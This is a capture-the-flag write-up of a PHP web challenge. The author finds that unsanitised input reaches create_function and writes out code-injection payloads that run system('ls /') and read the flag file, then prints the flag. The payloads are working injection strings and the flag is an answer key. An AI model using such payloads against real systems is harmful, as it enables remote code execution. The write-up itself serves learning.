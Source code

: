 # Challenge description

Ever since Claw's last encounter with the Inspector, he has been feeling very vindictive and angry. He hasn't even fed M.A.D. Cat correctly!

Thankfully, M.A.D. Cat knows their treats are stored in the nibbles directory!

Author: AtomicNicos
-----------------------------------------------------------

This challenge provides this page where we can only enter `echo "Hello World!";`

and anything else won't work

![image](https://user-images.githubusercontent.com/58823465/166170325-fb25173a-891f-4ef0-9770-7fdca2785a9f.png)

So trying different ways to break this i tried sending the code as an array, and bingo ! we get an interesting error 

![image](https://user-images.githubusercontent.com/58823465/166170340-16a43208-58d7-4a2d-b3df-31cc6915acde.png)

This means the "create_function" was used and this function can be exploited if the payload isn't sanitized, so we can inject arbitrary code and maybe get RCE !

More info about "create_function" code injection: 

-----------------------------------------------------------

https://www.exploit-db.com/exploits/32417

https://www.codetd.com/en/article/7175910

-----------------------------------------------------------

So using this payload we can get RCE 

``` code=1;}system(%27ls%20/%27);/* ``` 

![image](https://user-images.githubusercontent.com/58823465/166170373-0d777a68-fe58-4e97-bd07-55605fd3d9ae.png)


Next we just need to find the flag in the nibbles directory

````code=1;}system(%27cat%20./nibbles/flag.txt%27);/*````

``` Flag : DOCTF{G3TT1NG_RC3_(S0RRY_..._N1BBL3S)_1$_4LW4Y$_GR34T}  ```
